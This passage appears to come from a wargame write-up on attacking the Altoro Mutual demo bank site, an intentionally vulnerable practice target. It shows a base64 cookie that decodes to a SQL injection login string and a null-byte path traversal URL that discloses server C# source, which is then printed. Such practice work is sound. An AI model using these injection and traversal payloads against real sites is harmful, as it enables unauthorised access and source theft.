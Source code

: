 ### Base64-encoded login credentials

After a successful login the server will set a cookie *amUserInfo* which contains login information encoded in base64. This is for sure a vulnerability since an attacker could easily decode the information and get the login credentials.

~~~
amUserInfo=UserName=YWRtaW4nIE9SIDE9MjstLQ==&Password=dGVzdA==
~~~

decodes to...

~~~
amUserInfo=Username=admin' OR 1=2;--&Password=test
~~~

## /bank/main.aspx

After a successful login you'll be redirected to <http://demo.testfire.net/bank/main.aspx>. Let's have a look at the functionalities within this page.


### Source code disclosure<

Here's the source code ([http://demo.testfire.net/default.aspx?content=../bank/main.aspx.cs%00.txt][9])

~~~.dotnet
using System.Collections;
using System.ComponentModel;
using System.Data;
using System.Data.OleDb;
using System.Web;
using System.Web.SessionState;
using System.Web.UI;
using System.Web.UI.WebControls;
using System.Web.UI.HtmlControls;
using System.Configuration;
namespace Altoro
{
    /// <summary>
    /// Summary description for welcome.
    /// </summary>
    public partial class Default : Page
    {
        protected void Page_Load(object sender, System.EventArgs e)
        {
            Response.Cache.SetCacheability(HttpCacheability.NoCache);
            if (!(System.Convert.ToBoolean(Session["authenticated"])))
            {
                Server.Transfer("logout.aspx");
            }
            string thisUser = Request.Cookies["amUserId"].Value;
            DataRow myRow;
            DataTable acctTable = GetAccounts(thisUser);
            CheckPromo(thisUser);
            for (int i = 0; i < acctTable.Rows.Count; i++)
            {
                myRow = acctTable.Rows[i];
                ArrayList myList = new ArrayList();
                myList.Add(myRow["accountid"].ToString());
                myList.Add(myRow["accountid"].ToString() + " " + myRow["acct_type"].ToString());
                listAccounts.myItems.Add(myList);
            }
        }
        private DataTable GetAccounts(string userId)
        {
~~~

 [3]: http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%EF%BF%BD.txt
 [7]: http://www.portswigger.net/burp/
 [8]: http://dornea.nu/wargames/altoro-mutual?action=AttachFile&do=get&target=login_sql_injection.png "attachment:login_sql_injection.png"
 [9]: http://demo.testfire.net/default.aspx?content=../bank/main.aspx.cs%EF%BF%BD.txt